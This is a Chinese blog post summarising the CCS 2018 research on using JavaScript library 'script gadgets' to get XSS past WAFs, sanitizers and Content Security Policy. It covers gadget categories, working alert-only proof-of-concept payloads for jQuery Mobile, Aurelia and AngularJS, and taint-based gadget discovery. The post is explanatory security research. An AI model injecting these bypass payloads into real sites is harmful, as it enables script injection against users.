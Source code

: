 ```yaml
---
title: 基于Gadgets绕过XSS防御机制
date: 2019-02-27 09:49:17
categories: Web
tags: XSS
---
```


这篇文章是之前对CCS 2018 `Code-Reuse Attacks for the Web Breaking Cross-Site Scripting Mitigations via Script Gadgets` 的阅读笔记，最近整理资料发现放了挺久，于是稍做了一些整理和扩展发了出来。

<!--more-->

# 0x00 背景

本文主要考虑在可以注入任意HTML代码（富文本编辑器等应用）的条件下，利用JavaScript库中的一些代码片段（Gadget）来绕过常见的XSS防御机制，包括WAF、浏览器的XSS Filter、HTML Sanitizers、Content Security Policy等。

其中WAF考虑对请求值和返回值进行处理的正则匹配型或者字符匹配型WAF，HTML Sanitizers是则指DOMPurify这种基于DOM解析的XSS过滤器，Content Security Policy则主要考虑启用`unsafe-eval`或`strict-dynamic`的情况。

# 0x01 简单例子

和二进制攻击中的Gadget作用类似，本文中的Gadget是指可能被恶意利用的代码片段，下面以一个简单的例子来说明：

```js
var button = document.getElementById("mbutton");
button.innerHTML = button.getAttribute("data-text");
```

在这段代码中，取出了Id为`mbutton`的元素，并将data-text的值赋到了该元素的innerHTML属性。这是一些库中为了实现类似Tooltip等效果常用的一种方式，但是在存在这种代码片段的时候，只要构造如下的元素，就可造成XSS攻击。

```html
<button id="mbutton" data-text="<img src=x onerror=alert(/xss/)>">a</button>
```

# 0x02 Gadget分类

论文中把可利用的Gadget分为几类，具体如下：

## 字符串操作

这种Gadget主要是指对字符串的操作，一个字符串在经过操作后可能变为造成攻击的字符。

例如Polymer中的一段代码`dash.replace(/-[a-z]/g, (m) => m[1].toUpperCase())`，这段代码会把以连字符构成的字符串变为大写，例如像`inner-h-t-m-l`这种字符串处理后会变成`innerHTML`。大部分WAF是对请求值和返回值做匹配，而此时传入的是`inner-h-t-m-l`而不是`innerHTML`，那么就有可能造成绕过。

## 元素创建

这种Gadget是像`document.createElement(input)` `document.createElement("script")` `jQuery("<" + tag + ">")` `jQuery.html(input)` 这种直接创建的标签甚至script的代码片段。当输入一定程度可控时，则可利用这种Gadget。

## 函数创建

这种Gadget是指创建函数的代码段，比如Underscore.js中发现的一段代码：

```js
source = "var __t,__p='',__j=Array.prototype.join," +
"print=function(){__p+=__j.call(arguments,'');};\n" +
source + 'return __p;\n';
var render = new Function(
settings.variable || 'obj', '_', source);
```

这种Gadget会间接执行构造的代码段，在一定条件下可造成攻击。

## JavaScript代码执行

这种Gadget主要是指类似`eval`这种会直接执行传入代码的代码段，例如：

```js
eval(input);
inputFunction.apply();
node.innerHTML = "prefix" + input + "suffix";
scriptElement.src = input;
node.appendChild(input);
```

## 表达式解析

很多前端框架都提供了自己的模版引擎，有着丰富而强大的功能，这种Gadget就是框架中对模版表达式解析执行而造成的问题。例如Aurelia框架中可以用下面这段代码来触发一个代码执行。

```
<div ref=me
s.bind="$this.me.ownerDocument.defaultView.alert(1)"
></div>
```

# 0x03 例子

## 例一

论文中提及的例子很多，本文选取其中一个在jQuery Mobile中的Gadget来介绍：

```js
if (myId) {
    ui.screen.attr("id", myId + "-screen");
    ui.container.attr("id", myId + "-popup");
    ui.placeholder
        .attr("id", myId + "-placeholder")
        .html("<!-- placeholder for " + myId + " -->");
}
```

这个Gadget会提取`data-role`为`popup`的元素，获取其`id`中的内容，并调用`.html`，那么就可以构造一个如下的PoC：

```html
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```

在这个PoC中，没有`<script>`这种会触发WAF的字符串，用到的属性也是`data-role` `id`等在HTML Sanitizer白名单中的元素，因此该PoC可以绕过大部分的防御手段。

## 例二

虽然文中主要是针对`unsafe-eval`或`strict-dynamic`两种情况作了CSP的绕过，但是在有的情况下，不开启这两个选项也可实现执行，例如下面这个PoC：

```html
<html>
  <head>
    <meta http-equiv=content-security-policy content="object-src 'none';script-src https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js;">
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
  </head>
  <body>
     <div ng-app ng-csp>
      <div ng-focus="x=$event" tabindex=0>foo</div>
      <div ng-repeat="(key, value) in x.view">
        <div ng-if=key=="window">{{ value.alert = [1].reduce(value.alert, 'xss') }}</div>
      </div>
    </div>
  </body>
</html>
```

在模版内部中，Angular利用的是下面这个函数来完成调用，并不涉及`eval`等函数，因此在CSP没有开启`unsafe-eval`或`strict-dynamic`的情况下也可实现代码执行。

```
function defaultHandlerWrapper(element, event, handler) {
  handler.call(element, event);
}
```

# 0x04 Gadget发现

对Gadget的查找，作者给出了两种方式，一种是手工查找，一种是基于污点分析的半自动化查找。手工查找本文不做赘述，主要讲基于污点分析的半自动化查找方式。

这种方式是基于2013年CCS的一篇名为`25 Million Flows Later - Large-scale
Detection of DOM-based XSS`的文章。

该方式基于浏览器完成，先对`eval` `document.write`等敏感调用和`innerHTML`做了污点跟踪。然后爬取Alex Top 5000的网站，当发现数据流入了这些敏感调用，就尝试使用预置的一些攻击载荷尝试利用，若利用成功，则找到了一个Gadget。

当然这种方式也存在一些限制，比如作者只对第一级的链接做了分析和尝试、没有做用户交互和验证、在验证的时候没有考虑防御机制的绕过等。

# 0x05 参考链接

+ https://github.com/cure53/DOMPurify
+ https://github.com/google/security-research-pocs/tree/master/script-gadgets
+ https://queue.acm.org/detail.cfm?id=2663760
+ https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html
+ https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
